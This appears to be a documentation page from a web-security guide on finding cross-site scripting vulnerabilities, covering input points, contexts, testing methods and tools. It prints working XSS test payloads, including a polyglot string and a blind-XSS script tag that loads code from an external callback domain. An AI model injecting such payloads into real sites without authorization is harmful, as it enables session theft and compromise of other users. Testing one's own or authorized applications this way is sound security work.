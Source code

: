 ```yaml
---
title: XSS Identification Techniques
description: Methods and approaches for discovering Cross-Site Scripting vulnerabilities in web applications
---
```



This guide covers methodical approaches to identifying Cross-Site Scripting (XSS) vulnerabilities in web applications. Effective identification is the first step in securing applications against these common but dangerous vulnerabilities.

## Understanding XSS Entry Points

XSS vulnerabilities occur when applications include untrusted data in web pages without proper validation or escaping. Common entry points include:

### User Input Fields

- **Form fields**: Text inputs, textareas, hidden fields
- **URL parameters**: Query strings, path parameters
- **HTTP headers**: Referer, User-Agent, Cookie
- **File uploads**: Especially those that allow HTML or SVG content

### Context Awareness

The effectiveness of XSS identification depends on understanding the context where user input is reflected:

- **HTML context**: Between HTML tags or attributes
- **JavaScript context**: Within script blocks or event handlers
- **CSS context**: Within style attributes or style tags
- **URL context**: In href, src, or other URL attributes
- **DOM context**: Client-side JavaScript processing

## Manual Testing Techniques

### Basic Payload Testing

Start with simple, non-malicious payloads to identify reflection points:

```html
<test>
';alert(1);'
"><script>alert(1)</script>
```

### Context-Specific Testing

Tailor your payloads to the specific context:

**HTML Context**:
```html
\<img src="x" onerror="alert(1)"\>
```

**JavaScript Context**:
```javascript
';alert(1);//
```

**Attribute Context**:
```html
" onmouseover="alert(1)"
```

### DOM-Based XSS Testing

For DOM-based XSS, focus on client-side processing:

1. Identify sources (user-controllable inputs)
2. Trace data flow to sinks (dangerous JavaScript functions)
3. Test with payloads targeting specific sinks:

```javascript
location.hash = "#\<img src=\"x\" onerror=\"alert(1)\"\>"
```

## Automated Testing Approaches

### Scanner-Based Testing

Use specialized tools to automate discovery:

- **Web Application Scanners**: OWASP ZAP, Burp Suite
- **XSS-Specific Tools**: XSStrike, XSSer, XSS Hunter

### Fuzzing Techniques

Systematically test variations of payloads:

1. **Character set variations**: Testing different encoding schemes
2. **Tag variations**: Using different HTML tags and events
3. **Protocol variations**: javascript:, data:, vbscript: protocols

## Advanced Identification Methods

### Blind XSS Detection

Identify XSS vulnerabilities that may not be immediately visible:

1. Use payloads that call back to an external server
2. Deploy in areas where input might be viewed by others (admin panels, logs)

```html
\<script src="https://your-callback-domain.com/xss.js"\>\</script\>
```

### Polyglot XSS Payloads

Use payloads designed to work across multiple contexts:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=\"alert()\" )//%0D%0A%0d%0a//\</stYle/\</titLe/\</teXtarEa/\</scRipt/--!\>\x3csVg/\<sVg/oNloAd=\"alert()\"///\>\x3e
```

### Parameter Pollution

Test for XSS via parameter duplication:

```html
https://example.com/?param"safe"&param"\<script\>alert(1)\</script\>"
https://example.com/?param"safe"&param"\<script\>alert(1)\</script\>"
```

## Systematic Testing Methodology

### Reconnaissance Phase

1. **Map the application**: Identify all user input points
2. **Understand technologies**: Determine frameworks and libraries in use
3. **Review client-side code**: Analyze JavaScript for potential sinks

### Testing Phase

1. **Input reflection testing**: Determine where and how input is reflected
2. **Context analysis**: Identify the context of each reflection point
3. **Payload crafting**: Develop context-specific test payloads
4. **Filter detection**: Identify any filtering or sanitization in place

### Verification Phase

1. **Proof-of-concept**: Develop a non-destructive payload that proves the vulnerability
2. **Impact assessment**: Determine the potential impact of the vulnerability
3. **Documentation**: Record findings with clear reproduction steps

## Tools and Resources

### Essential Tools

- **Proxy tools**: Burp Suite, OWASP ZAP
- **Browser extensions**: XSS Me, DOM Inspector
- **Payload collections**: XSS Payload List, PayloadsAllTheThings

### Testing Checklists

- **Input vectors**: Forms, URLs, cookies, headers
- **Output contexts**: HTML, JS, CSS, attributes
- **Encoding variations**: URL, HTML, JavaScript, Base64

## Next Steps

After identifying XSS vulnerabilities, explore:

- [Evasion Techniques](/docs/xss/attack-techniques/evasion-techniques) - Learn how to bypass XSS filters
- [Exploitation Strategies](/docs/xss/attack-techniques/exploitation-strategies) - Understand how to demonstrate impact
